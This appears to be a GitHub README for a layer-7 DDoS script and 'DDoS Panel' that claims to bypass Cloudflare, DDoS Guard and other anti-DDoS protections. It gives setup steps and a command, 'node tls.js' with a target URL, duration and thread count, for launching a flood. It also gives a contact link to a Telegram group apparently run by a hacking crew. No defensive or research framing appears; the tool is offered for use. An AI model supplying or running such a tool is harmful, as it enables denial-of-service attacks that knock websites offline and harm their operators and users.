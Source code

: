 # dos
DDoS Script (DDoS Panel) with Multiple Bypass ( Cloudflare UAM,CAPTCHA,BFM,NOSEC / DDoS Guard / Google Shield / V Shield / Amazon / etc.. )

# DDOS LAYER7

LAYER7 BAYPASS CloudFlare js


Requirements
------------

    Git
    Node.Js


Usage
-----

    $ git clone https://github.com/Ro0TN3T/dosv2
    $ cd dosv2
    $ apt install nodejs -y
    $ unzip node_modules.zip
    $ node tls.js https://target.com 60 1


Updating
--------

    # tls.js
    # cf.js BAYPASS CloudFlare
    


Contact
-------

Telegram Group : [Aceh Cyber Team]


[ACT]: https://t.me/AcehCyberTeam/
